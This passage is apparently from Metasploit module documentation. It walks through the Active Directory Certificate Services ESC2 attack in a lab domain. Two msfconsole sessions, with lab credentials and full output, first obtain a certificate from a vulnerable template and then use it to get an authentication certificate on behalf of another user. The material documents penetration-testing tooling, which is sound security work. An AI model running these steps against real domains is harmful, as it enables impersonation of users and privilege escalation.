 The user must know:

* A vulnerable certificate template, in this case `ESC2-Test`.
* A target account, in this case `MSFLAB\smcintyre`.

See [Certified Pre-Owned](https://posts.specterops.io/certified-pre-owned-d95910965cd2) section on ESC2 for more
information.

#### Step 1
The first step is to issue a certificate using the vulnerable certificate template.

```msf
msf > use auxiliary/admin/dcerpc/icpr_cert 
msf auxiliary(admin/dcerpc/icpr_cert) > set RHOSTS 192.168.159.10
RHOSTS => 192.168.159.10
msf auxiliary(admin/dcerpc/icpr_cert) > set SMBUser aliddle
SMBUser => aliddle
msf auxiliary(admin/dcerpc/icpr_cert) > set SMBPass Password1!
SMBPass => Password1!
msf auxiliary(admin/dcerpc/icpr_cert) > set CA msflab-DC-CA
CA => msflab-DC-CA
msf auxiliary(admin/dcerpc/icpr_cert) > set CERT_TEMPLATE ESC2-Test
CERT_TEMPLATE => ESC2-Test
msf auxiliary(admin/dcerpc/icpr_cert) > run
[*] Running module against 192.168.159.10

[*] 192.168.159.10:445 - Connecting to ICertPassage (ICPR) Remote Protocol
[*] 192.168.159.10:445 - Binding to \cert...
[+] 192.168.159.10:445 - Bound to \cert
[*] 192.168.159.10:445 - Requesting a certificate...
[+] 192.168.159.10:445 - The requested certificate was issued.
[*] 192.168.159.10:445 - Certificate stored at: /home/smcintyre/.msf4/loot/20221107153602_default_unknown_windows.ad.cs_269882.pfx
[*] Auxiliary module execution completed
msf auxiliary(admin/dcerpc/icpr_cert) >
```

#### Step 2
The second step is to run the module a second time, using the certificate template to request a certificate on behalf of
the target user. The `CERT_TEMPLATE` option is updated to one allowing authentication such as the default `User`
template.

```msf
msf auxiliary(admin/dcerpc/icpr_cert) > set PFX /home/smcintyre/.msf4/loot/20221107153602_default_unknown_windows.ad.cs_269882.pfx
PFX => /home/smcintyre/.msf4/loot/20221107153602_default_unknown_windows.ad.cs_269882.pfx
msf auxiliary(admin/dcerpc/icpr_cert) > set ON_BEHALF_OF MSFLAB\\smcintyre
ON_BEHALF_OF => MSFLAB\smcintyre
msf auxiliary(admin/dcerpc/icpr_cert) > set CERT_TEMPLATE User
CERT_TEMPLATE => User
msf auxiliary(admin/dcerpc/icpr_cert) > run
[*] Running module against 192.168.159.10

[*] 192.168.159.10:445 - Connecting to ICertPassage (ICPR) Remote Protocol
[*] 192.168.159.10:445 - Binding to \cert...
[+] 192.168.159.10:445 - Bound to \cert
[*] 192.168.159.10:445 - Building certificate request on behalf of MSFLAB\smcintyre
[*] 192.168.159.10:445 - Requesting a certificate...
[+] 192.168.159.10:445 - The requested certificate was issued.
[*] 192.168.159.10:445 - Certificate UPN: smcintyre@msflab.local
[*] 192.168.159.10:445 - Certificate SID: S-1-5-21-3402587289-1488798532-3618296993-1000
[*] 192.168.159.10:445 - Certificate stored at: /home/smcintyre/.msf4/loot/20221107153713_default_unknown_windows.ad.cs_275853.pfx
```

[KB5014754]: https://support.microsoft.com/en-us/topic/kb5014754-certificate-based-authentication-changes-on-windows-domain-controllers-ad2c23b0-15d8-4340-a468-4d4f3b188f16